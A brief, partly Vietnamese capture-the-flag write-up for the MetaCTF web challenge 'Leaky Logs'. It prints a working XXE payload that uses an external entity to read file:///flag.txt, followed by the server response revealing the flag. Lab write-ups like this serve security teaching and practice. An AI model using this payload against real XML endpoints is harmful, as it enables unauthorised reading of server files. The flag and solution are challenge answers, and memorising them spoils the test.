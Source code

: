 ### Leaky Logs - web challenge -300

**Description**

```
Business, INC, the world's premier widget manufacturer, just released their fancy new dashboard, using all the hottest new web technologies from 2010.

This account doesn't seem to have a ton of access. Sucks.

Can you access the flag at /flag.txt?
```

TL,DR: Thử thách khai thác lỗi XXE để truy xuất tệp flag.txt như mô tả thử thách để lấy cờ.

----

Sau khi xác định được điểm cuối để khai thác lỗi XXE, với 1 cái payload khá đơn giản để lấy được flag
![xxe](https://user-images.githubusercontent.com/68894302/145155277-a8a041ec-589b-467c-b887-ff385d7ae5c2.png)


```
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///flag.txt'>]>
<params><query>&test;</query></params>
```

Result:

```
<events filtering_by="MetaCTF{el3m3nt4l_3xtern4lit1e5}&#10;"/>
```

